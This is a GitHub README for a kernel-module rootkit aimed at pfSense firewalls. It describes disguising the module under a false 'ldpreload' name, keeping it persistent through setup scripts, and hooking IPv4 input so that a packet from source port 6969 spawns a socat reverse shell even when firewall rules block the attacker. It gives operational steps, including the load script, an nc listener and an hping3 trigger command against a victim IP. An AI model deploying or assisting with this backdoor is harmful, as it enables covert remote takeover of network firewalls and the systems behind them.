 First off, I would like to give a massive thank you to my friend Sharad(mineo333) for helping 
create the functionality of forking a process and running kern_execve() in the child.  This is the
core of the entire rootkit and what allows for code execution upon the condition of a packet
with a certain source port being seen.  I could not have done this without his help.

An important note, the current .ko files are only usable for pfSense 2.7.2 CE.
You to compile these yourself, you must do it within a pfSense box, NOT a compatable freeBSD kernel.
To be able to compile within pfSense you must follow the steps outlined in "extra/how_to_setup_pfsense_to_compile.txt".

The "extra" directory holds the C code and Makefile to create an LKM that will eternally just print's a face, normal input will still work on the terminal it jsut scrolls really fast, you can also just unload it to make it stop. To load it you must run
kldload /boot/modules/.evil/evil.ko

ldpreload/LD_PRELOAD is a false name used for the rootkit since this LKM does not exist within pfSense but appears normal.
8

This LKM/Rootkit has persistance, from ldpreload.sh, which is loaded via load_and_setup.sh.

To load the Rootkit you must clone this directroy, cd into it, chmod +x load_and_setup.sh, and run ./load_and_setup.sh.
You will be popped out into a ghost /Apekit-tooshit directory so run cd / after the script is done.

What does it do?
This Rootkit registers a custom hook to the top of the IPv4 head within pfSense and establishes reverse shells by forking the process that runs cat and running the reverse shell command in that fork with execve.
This is super duper mega awesome because even if firewall rules are made against the attacker IP, ports, anything.  The registered hook will still receive the packet and make a reverse shell.
We use socat to make the reverse shell since FreeBSD's native version of nc (netcat) doesn't allow for reverse shells.

To get a reverse shell!

Run "nc -lvnp 7000" on the attaking machine in a terminal.
In another terminal, send packets that will pop open a reverse shell with the command
"sudo hping3 -S -p <destination port> -s 6969 <ip of victim box>"
Once you see the reverse shell connect, run control + c in the terminal that is sending the packets (you do not need to keep sending more traffic).
If the reverse shell doesn't connect after about 5 packets then run control + c in the terminal that is sending packets and re-run the command, packet filtering is finickey and sometimes you need to try a couple times.

